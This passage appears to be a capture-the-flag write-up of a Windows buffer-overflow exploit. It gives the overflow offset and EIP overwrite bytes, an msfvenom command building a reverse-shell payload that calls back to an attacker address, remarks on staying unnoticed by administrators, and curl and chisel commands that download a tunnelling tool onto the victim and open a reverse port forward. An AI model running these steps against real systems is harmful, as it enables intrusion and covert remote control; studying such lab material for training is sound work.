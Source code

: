 We replace NOPs for the memory reservation (x10)

`#Global attributes`
`ip_address="127.0.0.1"`
`offset = 1052`
`before_eip = b"A"*offset`
`eip = b"\x17\x91\x61\x6d" #0x6d 61 91 17`
`sub_esp = b"\x83\xEC\x10" #sub esp, 0x10`

We need as well to change the payload since we will attack now the remote machine

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.70 LPORT=4443 --platform windows -a x86 -b "\x00" -f c EXITFUNC=thread`

**Note:** When you exploit a vulnerability in an application using this payload to get a reverse shell, the vulnerable application will continue to run independently of your remote session. The payload will exit without terminating the application itself. This allows you to maintain stealth and avoid alerting the user or administrator of the system to the exploitation activity.

#### Connecting to the victime

Considering the architecture of the victime, we download chisel and upload to the victime using curl. This is necessary since port 8888 is not published.
`curl http://10.10.14.70:8080/chisel.exe -o chisel.exe` *it's important to put the output*

Victime:
`chisel.exe client 10.10.14.70:1234 R:8888:127.0.0.1:8888`

Attacker:
`./chisel server --reverse -p 1234`













